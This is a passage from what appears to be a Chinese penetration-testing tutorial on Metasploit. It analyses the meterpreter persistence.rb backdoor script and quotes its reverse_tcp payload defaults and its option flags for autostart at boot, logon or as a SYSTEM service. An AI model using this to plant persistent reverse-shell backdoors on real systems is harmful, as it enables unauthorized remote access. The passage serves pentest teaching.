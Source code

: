 ### 代码重用

代码重用可以是构建自己脚本的有效技术。您可以找到一些现成的函数，例如创建多处理程序、设置参数检查、添加有效载荷。您可以直接在您的代码中使用它们并利用其功能。请记住，学习 meterpreter 脚本的最佳方法是查看内置脚本。

# 分析现有的 meterpreter 脚本

现在我们已经学会了如何构建自己的脚本，让我们继续分析执行一些高级任务的现有脚本。一旦您能完全阅读现有脚本，您就可以根据需要从中实现函数。代码重用是增加代码优化的有效技术。

## 如何做到这一点...

要查看现有脚本，请浏览到`pentest/exploits/framework3/scripts/meterpreter`。

您可以在此文件夹中找到所有可用的 meterpreter 脚本。我们将分析`persistence.rb`脚本，该脚本有助于在目标用户上设置后门。我们在上一章中已经讨论了此脚本的用法。在这里，我们将深入了解此脚本的功能。

## 它是如何工作的...

让我们逐一分析代码的每个部分。

```
# Default parameters for payload
rhost = Rex::Socket.source_address("1.2.3.4")
rport = 4444
delay = 5
install = false
autoconn = false
serv = false
altexe = nil
target_dir = nil
payload_type = "windows/meterpreter/reverse_tcp"
script = nil
script_on_target = nil 
```

代码从声明在脚本中使用的变量开始。您可以看到一些常见变量，例如`rhost、rport、payload_type`，我们在整个利用过程中一直在使用。

```
@exec_opts = Rex::Parser::Arguments.new(
"-h" => [ false, "This help menu"],
"-r" => [ true, "The IP of the system running Metasploit listening for the connect back"],
"-p" => [ true, "The port on the remote host where Metasploit is listening"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-X" => [ false, "Automatically start the agent when the system boots"],
"-U" => [ false, "Automatically start the agent when the User logs on"],
"-S" => [ false, "Automatically start the agent on boot as a service (with SYSTEM privileges)"],
"-A" => [ false, "Automatically start a matching multi/handler to connect to the agent"],
"-L" => [ true, "Location in target host where to write payload to, if none \%TEMP\% will be used."],
"-T" => [ true, "Alternate executable template to use"],
"-P" => [ true, "Payload to use, default is windows/meterpreter/reverse_tcp."]
)
meter_type = client.platform 
```
